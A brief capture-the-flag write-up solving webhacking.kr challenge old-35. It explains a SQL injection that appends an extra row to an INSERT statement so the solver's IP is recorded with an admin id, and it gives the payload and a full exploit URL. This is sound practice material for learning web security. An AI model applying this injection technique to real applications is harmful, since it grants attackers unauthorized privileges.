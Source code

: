 # Webhacking old-35 Solution

another sql injection.
here this is the payload we insert: 
id=`1` phone=`1),(%27admin%27,%27{your-ip}%27,2`

which is equivalent to `1),('admin','{your-ip}', 2`.

I checked before and learn how the insert command is looks like, the format is like this: `INSERT Values(id, IP, phone)`

then, when he sees your IP address has admin id, it solves the challenge.

```
https://webhacking.kr/challenge/web-17/index.php?id=1&phone=1),(%27admin%27,%27185.177.125.211%27,2
```
